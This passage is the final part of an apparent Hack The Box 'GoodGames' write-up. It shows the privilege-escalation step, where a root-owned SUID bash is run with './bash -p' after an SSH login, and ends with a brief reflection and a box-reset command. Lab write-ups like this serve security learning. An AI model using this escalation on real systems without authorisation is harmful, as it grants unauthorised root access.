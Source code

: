```bash
# --> -rwsr-xr-x 1 root root bash          SUID!!

ssh augustus@172.19.0.1

cd /home/augustus
ls -l
# --> -rwsr-xr-x 1 root root bash          :)

./bash -p
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_57.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_58.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

> What a great box, I love it when technologies and different concepts are combined. Privilege escalation many times are challenging to the mind and not so much for research. I will now continue the saga and look for another challenge. I must not forget to kill the box with `htbExplorer`.

```bash
./htbExplorer -k GoodGames
```
